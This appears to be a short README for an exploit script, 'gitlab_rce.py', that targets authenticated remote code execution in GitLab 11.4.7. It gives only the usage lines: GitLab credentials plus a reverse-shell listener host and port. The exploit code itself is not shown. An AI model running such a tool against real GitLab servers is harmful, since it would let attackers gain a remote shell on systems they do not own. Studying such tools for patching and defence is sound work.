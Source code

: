 # GitLab-11.4.7-Authenticated-Remote-Code-Execution


<h3> Usage : python gitlab_rce.py -U `USERNAME` -P `PASSWORD` -l `LHOST` -p `LPORT` </h3>
  

usage: gitlab_rce.py [-h] [-U U] [-P P] [-l L] [-p P]

GitLab 11.4.7 Authenticated RCE

<p>optional arguments:</p>

 <p> -h, --help  show this help message and exit </p>
 <p> -U U        GitLab Username </p>
 <p> -P P        Gitlab Password </p>
 <p> -l L        rev shell lhost </p>
 <p> -p P        rev shell lport </p> 
